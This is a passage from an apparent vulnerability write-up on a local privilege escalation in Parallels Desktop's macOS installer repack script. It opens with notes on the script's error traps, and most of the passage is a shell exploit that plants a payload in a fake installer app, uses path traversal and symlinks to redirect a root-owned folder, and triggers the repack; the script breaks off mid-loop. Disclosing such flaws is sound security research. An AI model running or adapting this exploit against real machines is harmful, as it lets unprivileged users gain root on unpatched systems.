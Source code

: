 There are some challenges for my exploit due to the error handling code in the `repack_osx_install_app.sh`:

```
trap "cleanup; exit $ERR_UNEXPECTED" ERR
```

1. At line 51, the `$temp_result_dir` shouldn’t exist, otherwise `mkdir` will return an error. 
   1. Solution: Use a symlink to redirect the root-owned result folder.

2. From line 56 to 58, the source paths must exist for the `move_file` operation, otherwise it will return the error: path not exist. 
   1. Solution: Make a crafted `BaseSystem.dmg` for `7z` to extract.


# Exploit 2

The new exploit script for the function `do_repack_manual` is as follows:

```
#!/bin/sh

echo "[?] whoami; id"
whoami
id

echo "[*] Dropping a payload..."
cat << EOF > /tmp/payload
#!/bin/sh
touch /Library/lpe
/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal
EOF

chmod +x /tmp/payload

echo "[*] Dropping a fake macOS installer..."
mkdir -p /tmp/poc.app/Contents/Resources
mv /tmp/payload /tmp/poc.app/Contents/Resources/createinstallmedia
defaults write /tmp/poc.app/Contents/Info.plist CFBundleDisplayName ../../../../../../tmp/lnk/result

# redirect the root-owned folder "result"
mkdir /tmp/redirect
ln -s /tmp/redirect /tmp/lnk

echo "[*] Dropping a fake BaseSystem.dmg..."
mkdir -p /tmp/tmp/System/Library/CoreServices/
touch /tmp/tmp/System/Library/CoreServices/boot.efi
touch /tmp/tmp/System/Library/CoreServices/SystemVersion.plist
touch /tmp/tmp/System/Library/CoreServices/PlatformSupport.plist
/Applications/Parallels\ Desktop.app/Contents/MacOS/7z a 1.zip /tmp/tmp
mkdir -p /tmp/poc.app/Contents/SharedSupport/
mv 1.zip /tmp/poc.app/Contents/SharedSupport/BaseSystem.dmg

mkdir -p /tmp/dst/result/poc.app/Contents/Resources
# in the command:
# cp -R "$source_app" "$temp_result_dir"
# the 7z command will be replaced by my payload
ln -s /Applications/Parallels\ Desktop.app/Contents/MacOS/7z /tmp/dst/result/poc.app/Contents/Resources/createinstallmedia

echo "[*] Trigger the repack..."
open /tmp/poc.app -a /Applications/Parallels\ Desktop.app

echo "[*] Waitting for the temp_result_dir..."
while [ ! -d "/tmp/redirect/result" ]; do
```